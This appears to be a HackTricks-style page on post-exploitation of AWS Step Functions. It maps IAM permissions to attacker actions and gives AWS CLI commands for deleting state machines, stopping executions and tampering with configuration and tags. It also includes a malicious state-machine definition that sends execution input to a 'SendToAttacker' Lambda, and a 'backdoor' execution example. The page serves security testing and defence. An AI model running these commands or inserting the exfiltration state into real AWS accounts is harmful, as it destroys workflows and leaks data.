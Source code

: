 # AWS - Step Functions Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Step Functions

For more information about this AWS service, check:

{{#ref}}
../aws-services/aws-stepfunctions-enum.md
{{#endref}}

### `states:RevealSecrets`

This permission allows to **reveal secret data inside an execution**. For it, it's needed to set Inspection level to TRACE and the revealSecrets parameter to true.

<figure><img src="../../../images/image (348).png" alt=""><figcaption></figcaption></figure>

### `states:DeleteStateMachine`, `states:DeleteStateMachineVersion`, `states:DeleteStateMachineAlias`

An attacker with these permissions would be able to permanently delete state machines, their versions, and aliases. This can disrupt critical workflows, result in data loss, and require significant time to recover and restore the affected state machines. In addition, it would allow an attacker to cover the tracks used, disrupt forensic investigations, and potentially cripple operations by removing essential automation processes and state configurations.

> [!NOTE]
>
> - Deleting a state machine you also delete all its associated versions and aliases.
> - Deleting a state machine alias you do not delete the state machine versions referecing this alias.
> - It is not possible to delete a state machine version currently referenced by one o more aliases.

```bash
# Delete state machine
aws stepfunctions delete-state-machine --state-machine-arn <value>
# Delete state machine version
aws stepfunctions delete-state-machine-version --state-machine-version-arn <value>
# Delete state machine alias
aws stepfunctions delete-state-machine-alias --state-machine-alias-arn <value>
```

- **Potential Impact**: Disruption of critical workflows, data loss, and operational downtime.

### `states:UpdateMapRun`

An attacker with this permission would be able to manipulate the Map Run failure configuration and parallel setting, being able to increase or decrease the maximum number of child workflow executions allowed, affecting directly and performance of the service. In addition, an attacker could tamper with the tolerated failure percentage and count, being able to decrease this value to 0 so every time an item fails, the whole map run would fail, affecting directly to the state machine execution and potentially disrupting critical workflows.

```bash
aws stepfunctions update-map-run --map-run-arn <value> [--max-concurrency <value>] [--tolerated-failure-percentage <value>] [--tolerated-failure-count <value>]
```

- **Potential Impact**: Performance degradation, and disruption of critical workflows.

### `states:StopExecution`

An attacker with this permission could be able to stop the execution of any state machine, disrupting ongoing workflows and processes. This could lead to incomplete transactions, halted business operations, and potential data corruption.

> [!WARNING]
> This action is not supported by **express state machines**.

```bash
aws stepfunctions stop-execution --execution-arn <value> [--error <value>] [--cause <value>]
```

- **Potential Impact**: Disruption of ongoing workflows, operational downtime, and potential data corruption.

### `states:TagResource`, `states:UntagResource`

An attacker could add, modify, or remove tags from Step Functions resources, disrupting your organization's cost allocation, resource tracking, and access control policies based on tags.

```bash
aws stepfunctions tag-resource --resource-arn <value> --tags Key=<key>,Value=<value>
aws stepfunctions untag-resource --resource-arn <value> --tag-keys <key>
```

**Potential Impact**: Disruption of cost allocation, resource tracking, and tag-based access control policies.

### `states:UpdateStateMachine`

This permission allows an attacker to **modify the logic of an existing state machine**. By injecting malicious logic into the state definition, the attacker could:

- Add a **new state** that exfiltrates input/output to an external system (via Lambda or SNS).
- **Bypass security checks**, skip validation steps, or disable error handling.
- **Insert a logic bomb** that triggers under specific input conditions to disrupt execution.

This attack can be subtle, blending into large state definitions, and may go unnoticed without strict ASL version control.

```bash
aws stepfunctions update-state-machine \
  --state-machine-arn <value> \
  --definition file://malicious_state_definition.json \
  --role-arn arn:aws:iam::<account-id>:role/<execution-role>
```

`malicious_state_definition.json`

```json
{
  "Comment": "Malicious State Machine - Data Exfiltration",
  "StartAt": "ExfiltrateSecrets",
  "States": {
    "ExfiltrateSecrets": {
      "Type": "Task",
      "Resource": "arn:aws:lambda:us-east-1:123456789012:function:SendToAttacker",
      "InputPath": "$",
      "ResultPath": "$.exfiltration_result",
      "Next": "LegitimateStep"
    },
    "LegitimateStep": {
      "Type": "Task",
      "Resource": "arn:aws:lambda:us-east-1:123456789012:function:LegitBusinessLogic",
      "End": true
    }
  }
}
```
- **Potential Impact**: Data exfiltration, disruption of logic flow, persistent access through hidden states.

---

### `states:StartExecution`

With this permission, an attacker can **trigger executions on demand**, passing arbitrary input to state machines. This allows:

- **Triggering sensitive operations** (e.g., Lambda invocations, EC2 actions) if the workflow handles them.
- **Supplying attacker-controlled input** to abuse poorly validated states.
- **Recon of business logic** by probing execution responses or failures.

Used with `states:GetExecutionHistory`, it becomes a powerful tool for **logic discovery**, **abuse**, or **command execution** through embedded Lambdas or activities.

```bash
aws stepfunctions start-execution \
  --state-machine-arn <value> \
  --name "backdoor-$(date +%s)" \
  --input '{"command":"whoami"}'
```

- **Potential Impact**: Unauthorized triggering of sensitive workflows, business logic abuse, stealthy persistence (can be cron-triggered via EventBridge).


{{#include ../../../banners/hacktricks-training.md}}




